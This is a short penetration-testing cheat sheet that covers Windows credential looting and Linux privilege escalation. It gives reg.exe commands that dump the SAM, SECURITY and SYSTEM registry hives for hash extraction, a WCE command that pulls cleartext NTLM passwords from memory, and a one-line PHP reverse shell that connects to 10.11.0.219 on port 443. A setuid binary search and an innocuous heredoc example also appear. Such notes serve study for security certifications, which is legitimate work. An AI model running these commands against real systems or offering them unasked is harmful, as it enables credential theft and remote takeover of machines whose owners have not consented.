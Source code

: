 ### Loot registry without tools

This might be a better technique than using tools like `wce` and `fgdump`, since you don't have to upload any binaries. Get the registry:

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using `secretdump.py` or `pwdump`

### Windows Credencial Editor (WCE)

WCE can steal NTLM passwords from memory in cleartext! There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

```
wce32.exe -w
```

***

## Linux Privilege Escalation

Check to see what sudo privileges the current user has:

```
sudo -l
```

One-line PHP reverse shell:

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.11.0.219/443 0>&1'");
```

Create a new file within terminal:

```
#!/bin/sh
cat > test << EOF
Hello World!
This is my stupid text file.

You
can also
have
a whole lot
more text and
lines
EOF
```

Find setgid and setuid binaries:
```
find / -xdev -type f \( -perm -4000 -o -perm -2000 \) -ls
```
